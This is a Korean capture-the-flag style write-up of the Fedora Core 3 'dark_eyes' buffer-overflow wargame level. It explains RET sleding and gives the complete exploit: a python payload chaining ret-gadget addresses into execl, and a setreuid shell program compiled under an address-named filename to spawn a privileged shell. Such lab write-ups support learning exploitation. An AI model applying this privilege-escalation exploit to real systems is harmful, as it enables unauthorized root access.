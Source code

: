 ```yaml
---
title: FC3 iron_golem -> dark_eyes
slug: fc3-iron_golem
date: 2017-01-05 01:40:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


ret sleding에 대해 쓰는 글

아래는 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - dark_eyes
    - Local BOF on Fedora Core 3
    - hint : RET sleding
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    char saved_sfp[4];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // save sfp
    memcpy(saved_sfp, buffer+264, 4);

    // overflow!!
    strcpy(buffer, argv[1]);

    // restore sfp
    memcpy(buffer+264, saved_sfp, 4);

    printf("%s\n", buffer);
}
```

buffer+264번지에 sfp, buffer+268번지에 ret이 있다. 이 단계는 sfp를 쓸 수 없다.

RET sleding은 ret으로 ret 명령어가 있는 주소를 가리키는 걸 뜻한다.

ret ret ret은 pop eip, pop eip, pop eip를 뜻하는데,
스택을 파괴하는 nop 느낌으로 쓰면 될듯.

이 문제에서 이걸 이용해서 어떻게 푸냐... 하면
execl 함수를 호출할 때 사용할 것이다.

참고로 execl은 execl("/bin/sh", NULL); 같은 느낌으로 써주면 된다.

얼추 내가 원하는 모양을 써서 gdb로 확인해보면

![gdb 1](gdb-1.png)

execl(0x0083eff4, 0x00000000);과 같은 식으로 호출되면 참 그림이 좋을 것 같다.
0x007a5720을 오른쪽으로 2번 밀어주자.

그럼 아래와 같은 코드가 완성된다.

./dark_eyes "`python -c 'print "A"*268 + "\xb9\x84\x04\x08"*3 + "\x20\x57\x7a"'`"

참고로 0x080484b9는 ret 명령어 주소, 0x007a5720은 execl 함수 주소.

그리고 0x0083eff4에는

![gdb 2](gdb-2.png)

0x83ed3c가 있다.

아래와 같은 코드를 작성해서 0x83ed3c로 실행파일명을 준비해주자.

```c
#include <unistd.h>
int main() {
    setreuid(geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}
```

```sh
gcc shell.c -o `python -c 'print "\x3c\xed\x83"'`
```

그 다음에 저 위에 써놓은 코드를 쓰면 sh 실행이 된다.
